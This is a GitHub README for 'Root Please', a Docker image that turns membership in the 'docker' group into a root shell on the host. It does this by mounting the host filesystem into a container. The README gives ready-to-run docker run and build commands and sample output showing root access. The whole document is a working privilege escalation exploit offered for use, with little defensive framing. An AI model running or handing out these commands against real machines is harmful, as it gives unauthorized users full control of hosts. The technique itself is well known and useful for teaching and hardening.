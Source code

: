 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a
root shell on the host OS. [See my blog post for
details](https://fosterelli.co/privilege-escalation-via-docker).

Supported architectures: amd64, arm64, arm/v7
Original Repository: [rootplease](https://github.com/chrisfosterelli/dockerrootplease)
How to Use
----------

Through Docker Hub:

```bash
> docker run -v /:/hostOS -it --rm aravindha1234u/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/aravindha1234u/rootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -it --rm rootplease
```

And the result:

```bash
aravindha@parrotos:~$ docker run -v /:/hostOS -it --rm aravindha1234u/rootplease

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```
